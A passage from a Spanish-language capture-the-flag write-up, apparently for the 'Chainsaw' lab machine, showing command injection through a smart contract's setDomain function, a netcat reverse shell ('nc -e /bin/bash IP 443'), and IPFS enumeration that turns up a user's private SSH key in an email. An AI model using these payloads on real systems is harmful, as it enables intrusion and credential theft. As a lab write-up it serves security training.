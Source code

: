 ```python3
HexBytes('0xaf117d49938704c00dd79b9ffdcac17b077bae594ad7a83a507a1bdcbbe5b356')
>>> contract.functions.getDomain().call()
'youtube.com'
>>> contract.functions.setDomain('10.10.14.12; ping -c 3 IP').transact()
HexBytes('0xf6bfe28c9b14a523c3621e893ade5ac89c1bd171c124a03c4baba1ac9e6f79b9')

- RCE -
>>> contract.functions.setDomain('10.10.14.12;nc -e /bin/bash IP 443').transact()
HexBytes('0x732bdc75b92c0e037a61b113fbd62230ef534d93c4d00ac5a39796f1f26439dc')
```

Nos ponemos con una session de `nc -vlnp 443` a la escucha y recibimos la shell como `Administrator`

# IPFS - User Pivotion 
Encontramos enumerando el directorio de nuestro usuario un directorio llamado `.ipfs`
Procedemos de la siguiente manera.

```bash
administrator@chainsaw:/home/administrator$ for i in $(ipfs refs local); do ipfs ls $i 2>/dev/null; done
QmXWS8VFBxJPsxhF8KEqN1VpZf52DPhLswcXpxEDzF5DWC 391 arti.key.pub
QmPjsarLFBcY8seiv3rpUZ2aTyauPF3Xu3kQm56iD6mdcq 391 bobby.key.pub
QmUHHbX4N8tUNyXFK9jNfgpFFddGgpn72CF1JyNnZNeVVn 391 bryan.key.pub
QmUH2FceqvTSAvn6oqm8M49TNDqowktkEx4LgpBx746HRS 391 lara.key.pub
QmcMCDdN1qDaa2vaN654nA4Jzr6Zv9yGSBjKPk26iFJJ4M 391 wendy.key.pub
QmZrd1ik8Z2F5iSZPDA2cZSmaZkHFEE4jZ3MiQTDKHAiri 45459 mail-log/
QmbwWcNc7TZBUDFzwW7eUTAyLE2hhwhHiTXqempi1CgUwB 10063 artichain600-protonmail-2018-12-13T20_50_58+01_00.eml
QmViFN1CKxrg3ef1S8AJBZzQ2QS8xrcq3wHmyEfyXYjCMF 4640  "bobby"axelrod600-protonmail-2018-12-13-T20_28_54+01_00.eml    SERA LA ID_RSA ?? Para Bobby??
QmZxzK6gXioAUH9a68ojwkos8EaeANnicBJNA3TND4Sizp 10084 bryanconnerty600-protonmail-2018-12-13T20_50_36+01_00.eml
QmegE6RZe59xf1TyDdhhcNnMrsevsfuJHUynLuRc4yf6V1 10083 laraaxelrod600-protonmail-2018-12-13T20_49_35+01_00.eml
QmXwXzVYKgYZEXU1dgCKeejT87Knw9nydGcuUZrjwNb2Me 10092 wendyrhoades600-protonmail-2018-12-13T20_50_15+01_00.eml
QmZTR5bcpQD7cFgTorqxZDYaew1Wqgfbd2ud9QqGPAkK2V 1688 about
QmYCvbfNbCwFR45HiNP45rwJgvatpiW38D961L5qAhUM5Y 200  contact
QmY5heUM5qgRubMDD1og9fhCPA6QdkMp3QCwd4s7gJsyE7 322  help
QmejvEPop4D7YUadeGqYWmZxHhLc4JBUCzJJHWMzdcMe2y 12   ping
QmXgqKTbzdh83pQtKFb19SpMCpDDcKR2ujqk3pKph9aCNF 1692 quick-start
QmPZ9gcCEpqKTo6aq61g2nXGUhM4iCL3ewB6LDXZCtioEB 1102 readme
QmQ5vhrL7uv6tuoN9KeVBwd4PwfQkXdVVmDLUZuTNxqgvm 1173 security-notes
QmWMuEvh2tGJ1DiNPPoN6rXme2jMYUixjxsC6QUji8mop8 2996 maintain/
QmXymZCHdTHz5BA5ugv9MQTBtQAb6Vit4iFeEnuRj6Udrh 660  gen.py
QmPctBY8tq2TpPufHuQUbe2sCxoy2wD5YRB6kdce35ZwAx 2237 pub/
QmYn3NxLLYA6xU2XL1QJfCZec4B7MpFNxVVtDvqbiZCFG8 231 chainsaw-emp.csv
```
Nos descargamos el contenido del mail encontramos una cadena en base64 que resulta ser la id_rsa de Bobby
